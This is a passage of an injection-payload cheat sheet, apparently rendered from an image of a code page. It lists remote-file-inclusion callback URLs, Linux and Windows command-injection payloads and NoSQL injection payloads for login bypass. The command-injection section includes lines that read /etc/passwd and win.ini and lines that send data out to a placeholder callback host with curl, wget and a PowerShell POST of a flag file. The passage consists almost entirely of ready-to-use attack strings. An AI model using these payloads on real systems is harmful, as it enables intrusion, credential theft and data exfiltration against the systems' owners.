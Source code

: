 ```
https://{{CALLBACK_URL}}/shell.txt
//{{CALLBACK_URL}}/shell.txt
  
```

**5. Command Injection / RCE**

```
# === Linux Payloads ===
; {{CMD}}
| {{CMD}}
`{{CMD}}`
$({{CMD}})
&& {{CMD}}
|| {{CMD}}
; ls -la;
; cat /etc/passwd;
; id;
; uname -a;
; ping -c 4 {{CALLBACK_URL}};
; curl http://{{CALLBACK_URL}}/?data=$(whoami);
; wget http://{{CALLBACK_URL}}/?data=$(cat /etc/passwd|base64);

# === Windows Payloads ===
& {{CMD}}
&& {{CMD}}
| {{CMD}}
|| {{CMD}}
& whoami
& type C:\Windows\win.ini
& ping -n 4 {{CALLBACK_URL}}
& powershell -c "Invoke-WebRequest -Uri http://{{CALLBACK_URL}}/ -Method POST -Body (Get-Content C:\Users\Administrator\Desktop\flag.txt)"
  
```

**6. NoSQL Injection**

```
# === General Payloads (often in JSON) ===
{"$ne": "nonexistent"}
{"$gt": ""}
{"$regex": ".*"}
' || '1'=='1
' && this.password.length > 0
{"username": {"$ne": null}, "password": {"$ne": null}}
{"$where": "sleep(5000)"}
{"$where": "this.username.startsWith('admin') && this.password.startsWith('p')"}

# === Context-specific examples ===
user[$ne]=foo
password[$gt]=
user[$regex]=^admin
  
```
